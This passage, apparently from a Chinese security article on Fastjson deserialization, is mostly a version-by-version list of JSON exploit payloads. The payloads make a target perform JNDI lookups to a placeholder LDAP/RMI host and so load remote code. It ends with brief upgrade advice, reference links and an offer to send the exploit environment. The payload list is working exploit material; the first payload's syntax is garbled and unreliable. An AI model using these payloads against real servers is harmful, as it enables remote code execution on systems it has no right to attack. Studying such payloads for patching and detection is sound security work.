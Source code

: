 ```
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"dataSourceName":"ldap://x.x.x.x:1099/exp", "autoCommit":true}

fastjson<=1.2.45
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://x.x.x.x:1099/exp"}}

fastjson<=1.2.47
{
    "a": {
        "@type": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "rmi://x.x.x.x:1099/exp", 
        "autoCommit": true
    }
}

fastjson<=1.2.62
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://x.x.x.x:1099/exp"}";

fastjson<=1.2.66

{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://x.x.x.x:1099/calc"} 
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://x.x.x.x:1099/calc"} 
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://x.x.x.x:1099/calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://x.x.x.x:1099/calc"}}
```

四、漏洞修复：

将 Fastjson 升级到最新版本

https://github.com/alibaba/fastjson

注意：Rmi 和 Ldap 启动的 Java 环境的版本（启动服务之前用 java -version 查看自己的 jdk 版本是否低于以下 jdk 版本）

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVosZNP8h4n7Hb4VWUC8dx67phKMVu9keYnhHvX8LGDElhqbCqdmCUGw/640?wx_fmt=png)

参考：

https://cloud.tencent.com/developer/article/1553664

https://github.com/c0ny1/FastjsonExploit

https://mp.weixin.qq.com/s/i7-g89BJHIYTwaJbLuGZcQ

https://www.cnblogs.com/zhengjim/p/11433926.html

后台回复 “Fastjson” 获取环境和 EXP
